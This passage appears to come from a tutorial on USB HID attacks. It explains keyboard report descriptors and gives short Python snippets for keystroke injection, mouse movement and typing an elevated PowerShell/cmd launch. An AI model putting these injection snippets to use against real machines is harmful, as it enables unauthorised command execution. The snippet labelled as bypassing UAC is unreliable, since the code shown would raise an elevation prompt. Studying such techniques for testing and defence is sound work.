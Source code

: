 #### **Report Descriptors**
These define the format and meaning of the data packets:
```c
// Example: Keyboard report descriptor
0x05, 0x01,  // Usage Page (Generic Desktop)
0x09, 0x06,  // Usage (Keyboard)
0xA1, 0x01,  // Collection (Application)
0x05, 0x07,  // Usage Page (Key Codes)
0x19, 0x00,  // Usage Minimum (0)
0x29, 0xFF,  // Usage Maximum (255)
0x15, 0x00,  // Logical Minimum (0)
0x25, 0xFF,  // Logical Maximum (255)
0x75, 0x08,  // Report Size (8)
0x95, 0x06,  // Report Count (6)
0x81, 0x00,  // Input (Data, Array)
0xC0         // End Collection
```

### HID Attack Techniques

#### **1. Keystroke Injection**
The most common HID attack technique:
```python
# Example: Typing a command
keyboard.press(Keycode.WINDOWS)
keyboard.press(Keycode.R)
keyboard.release_all()
time.sleep(0.5)
keyboard_layout.write("cmd")
keyboard.press(Keycode.ENTER)
keyboard.release_all()
```

#### **2. Mouse Movement**
Simulating mouse input:
```python
# Example: Moving mouse and clicking
mouse.move(100, 100)  # Move to coordinates
mouse.click(Mouse.LEFT_BUTTON)  # Click
```

#### **3. Timing Attacks**
Using precise timing to bypass security:
```python
# Example: Rapid keystrokes to bypass UAC
time.sleep(2)  # Wait for system to be ready
keyboard_layout.write("powershell -Command \"Start-Process cmd -Verb RunAs\"")
keyboard.press(Keycode.ENTER)
keyboard.release_all()
```

---
